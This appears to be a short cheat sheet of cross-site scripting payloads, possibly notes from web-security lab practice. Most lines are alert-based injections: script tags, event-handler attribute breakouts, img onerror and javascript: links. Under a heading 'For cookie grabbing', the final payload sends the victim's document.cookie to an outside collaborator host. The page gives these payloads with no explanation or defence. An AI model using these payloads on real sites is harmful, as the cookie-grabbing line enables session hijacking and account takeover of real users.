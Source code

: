 #### For testing.
```js
<script>alert(1337)</script>
<svg/ onload=alert(1337)//
<script onclick="alert(1337)">
" onclick="alert(1337)
" autofocus="alert(1337)
"onmouseover="alert(1)
">cyborg71<script>alert(1337)</script> >> DOM XSS in document.write sink using source location.search
<img src=x onerror=alert('XSS')>
<a href="javascript:alert('XSS')">Click me</a>
xss&lt;script&gt;alert&#40;1337&#41;&lt;&#47;script&gt;
```
### Reflected XSS into attribute with angle brackets HTML-encoded
```js
" onclick="alert(1337)
" autofocus="alert(1337)
" autofocus onfocus="alert(1337)
"onmouseover="alert(1)
```
#### For cookie grabbing.
```js
<script>document.location='https://r91uwnam29s3c1jdsyc8t7t34ualyfm4.oastify.com//'+document.cookie</script> 
```
